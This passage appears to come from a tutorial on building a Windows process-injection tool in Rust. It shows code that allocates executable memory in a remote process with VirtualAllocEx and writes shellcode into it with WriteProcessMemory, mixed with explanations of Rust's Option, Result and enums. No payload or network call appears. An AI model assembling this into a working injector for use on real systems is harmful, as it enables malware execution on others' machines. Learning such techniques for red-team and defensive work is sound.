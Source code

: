 ### Allocate Memory for Shellcode

```rust
let shell_size = shellcode.len();
let buf = VirtualAllocEx(hProcess, Some(null()), shell_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if buf.is_null() {
    eprintln!("VirtualAlloc Failed : {:?}", GetLastError());
    std::process::exit(2);
}
println!("Allocated Memory for shellcode");
```

We might have to import the `null() & null_mut()` from `std::ptr` crate and also the `MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE` from the same crate as the function `VirtualAllocEx`. We can see the function definition in VSCode if we hover over the function.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### `Some` & `Option` in Rust

Due to the way the function is defined, I had to use `Some()` to wrap the `null()` which didn't make much sense to me. But think of `Some` as it either has `Some` value or `None`. It is a variant of the `Option` type in Rust. Quoting the rust document

> The problem with null values is that if you try to use a null value as a not-null value, you’ll get an error of some kind. Because this null or not-null property is pervasive, it’s extremely easy to make this kind of error.

So the [Option](https://doc.rust-lang.org/book/ch06-01-defining-an-enum.html?highlight=Option#the-option-enum-and-its-advantages-over-null-values) is used to include the scenario in which the variable would not have any value , aka null. Rust forces you to handle the cases where the variable could potentially be null and thereby avoid any kind of bugs related to it.

#### `Result` & `Enums` in Rust

The `Result` is an enum in rust and it has 2 outcomes.  either it passes `Ok(T)` or it fails with an `Err(E)` and whenever we have a type of Result, it's our duty to handle both of the outcomes. In general, an [enum](https://doc.rust-lang.org/book/ch06-01-defining-an-enum.html) is when a variable can have any value of different types. So like if there's an enum of type `IP Address`, It can have both the `IPV4` and `IPV6` which would be of 2 different types (assume) and since we don't know what type are we going to handle, we use an enum instead and handle both of the values accordingly.

### Write Shellcode to Allocated Memory

Ok back to process injection, now we have to write the shellcode into the process memory.

<pre class="language-rust"><code class="lang-rust">let status_write = WriteProcessMemory(hProcess, buf, shellcode.as_ptr() as *const c_void, shell_size, Some(null_mut()));
if status_write.is_err() {
        eprintln!("Error Writing shellcode to Memory: {:?}", GetLastError());
<strong>        std::process::exit(3);
</strong>}
println!("Written shellcode to process");
</code></pre>
